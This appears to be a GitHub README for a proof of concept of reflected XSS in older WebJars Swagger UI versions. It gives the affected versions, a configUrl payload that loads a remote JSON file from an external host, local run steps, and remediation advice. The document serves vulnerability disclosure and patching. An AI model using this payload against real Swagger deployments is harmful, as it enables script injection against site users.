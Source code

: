 # WebJars Swagger XSS PoC

## Credit and Thanks
Example application was copied from: [https://github.com/http4k/examples/tree/master/hello-world](https://github.com/http4k/examples/tree/master/hello-world)

Credit to the http4k team for [maintaining simple, easy-to-use docs](https://www.http4k.org/guide/howto/deploy_webjars/) on setting up a quick web app to show off webjars.

## Quick Details
**Package**: [org.webjars:swagger-ui](https://mvnrepository.com/artifact/org.webjars/swagger-ui)

**Versions Affected**: [3.14.2, 3.36.2]

**Type of Issue**: [Reflected XSS](https://owasp.org/www-community/attacks/xss/)

**Payload/PoC**: `?configUrl=https://xss.smarpo.com/test.json` -- Append this to end of the Swagger UI URL and an alert dialog should fire.

* eg. `https://example.com/webjars/swagger-ui/3.14.2/index.html?configUrl=https://xss.smarpo.com/test.json`

## Am I vulnerable?
If your application includes the `org.webjars:swagger-ui` package within the stated vulnerable versions AND you make the
Swagger UI "routable" (aka, it can be loaded in a browser), your application has an XSS issue.

For example, if your app includes `org.webjars:swagger-ui:3.36.2` and your Swagger UI is available at https://localhost/swagger -- you are vulnerable.

For example, if your app includes `org.webjars:swagger-ui:3.17.6` and your Swagger UI is available at: https://example.com/swagger/swagger-ui -- you are vulnerable.

## About
The Swagger UI is commonly included in applications to allow for visually viewing a service's OpenAPI API documentation via
a convenient web-interface. Older versions of the Swagger UI suffer from known XSS issues. WebJars merely serve as a way
to package up common frontend code and provide it as a clean JVM-based dependency to avoid needing to manage frontend
dependency management on top of backend dependencies.

This particular vulnerability was originally found and described by: [https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)

## Running the PoC

You will need JDK 11 and Docker available for easiest running of PoC.

### With docker

1. Run: `./build_and_run.sh`
2. Navigate to: http://localhost:8080/webjars/swagger-ui/3.36.2/index.html?configUrl=https://xss.smarpo.com/test.json

### Without docker

1. Run: `./gradlew clean distZip`
2. Run: `unzip build/distributions/Example.zip`
3. Run: `./Example/bin/Example`
4. Navigate to: http://localhost:8080/webjars/swagger-ui/3.36.2/index.html?configUrl=https://xss.smarpo.com/test.json


XSS Payloads are hosted at: [seanmarpo/swagger-xss-payloads](https://github.com/seanmarpo/swagger-xss-payloads)

## Remediation

* Update `org.webjars:swagger-ui` to a version higher than `3.36.2`
* Remove routing for the swagger-ui webjars such that they are not available for web access
